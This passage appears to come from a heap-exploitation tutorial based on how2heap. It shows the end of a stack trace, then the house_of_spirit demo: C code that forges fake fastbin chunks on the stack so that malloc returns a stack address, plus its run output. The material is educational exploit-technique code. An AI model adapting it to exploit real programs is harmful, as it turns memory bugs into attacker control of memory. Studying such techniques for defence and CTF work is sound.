 ```text
    #1 0x400b12 in main /home/firmy/how2heap/unsafe_unlink.c:13
    #2 0x7fc925d8282f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
```

### house_of_spirit

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    malloc(1);

    fprintf(stderr, "We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.\n");
    unsigned long long *a, *b;
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "The first one:  %p\n", &fake_chunks[0]);
    fprintf(stderr, "The second one: %p\n", &fake_chunks[4]);

    fake_chunks[1] = 0x20;      // the size
    fake_chunks[5] = 0x1234;    // nextsize

    fake_chunks[2] = 0x4141414141414141LL;
    fake_chunks[6] = 0x4141414141414141LL;

    fprintf(stderr, "Overwritting our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[0]);
    a = &fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[0], &fake_chunks[2]);
    b = malloc(0x10);
    fprintf(stderr, "malloc(0x10): %p\n", b);
    b[0] = 0x4242424242424242LL;
}
```

```text
$ gcc -g house_of_spirit.c
$ ./a.out
We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.
The first one:  0x7ffc782dae00
The second one: 0x7ffc782dae20
Overwritting our pointer with the address of the fake region inside the fake first chunk, 0x7ffc782dae00.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffc782dae00, which will be 0x7ffc782dae10!
malloc(0x10): 0x7ffc782dae10
```

